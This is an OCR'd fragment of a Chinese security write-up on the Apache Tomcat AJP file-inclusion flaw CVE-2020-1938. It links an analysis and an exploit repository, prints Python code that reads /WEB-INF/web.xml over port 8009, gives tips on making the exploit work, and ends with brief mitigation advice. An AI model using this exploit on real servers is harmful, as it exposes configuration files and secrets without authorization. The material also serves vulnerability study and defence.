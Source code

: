 https://blog.riskivy.com/apache-tomcat-ajp%e5%8d%8f%e8%ae%ae%e6%96%87%e4%bb%b6%e5%8c%85%e5%90%ab%e6%bc%8f%e6%b4%9e%e5%88%86%e6%9e%90/

  

**5****、漏洞利用**

0nise/CVE-2020-1938: CVE-2020-1938  
https://github.com/0nise/CVE-2020-1938

  

**6.** **利用技巧**

1.当时还没公开poc的时候就分析出来exp挺有意思的, 效果确实还可以, 当天fofa都被累挂了

主要代码也就这t = Tomcat("127.0.0.1", 8009)

_, data = t.perform_request('/',

attributes=[{'name': 'req_attribute',

'value': ['javax.servlet.include.request_uri', '/']

},

{'name': 'req_attribute',

'value': ['javax.servlet.include.path_info',

 "/WEB-INF/web.xml"]

},

{'name': 'req_attribute',

'value': ['javax.servlet.include.servlet_path',

 '/']

},

])

print('----------------------------')

print("".join([bytes.decode(d.data) for d in data]))

2.通过修改这里的路径可以进行Webapp切换, 默认是ROOT/, 需要切换应用就改成/admin/

3.通常检测的时候,尽量保持t.perform_request('/',有的poc喜欢用/addsd这种的不存在的路径, 有些情况会读不到文件

  

**8.** **防护方法**

1.升级到最新版

2.屏蔽8009端口对外开放  

  

15  
  

  

  
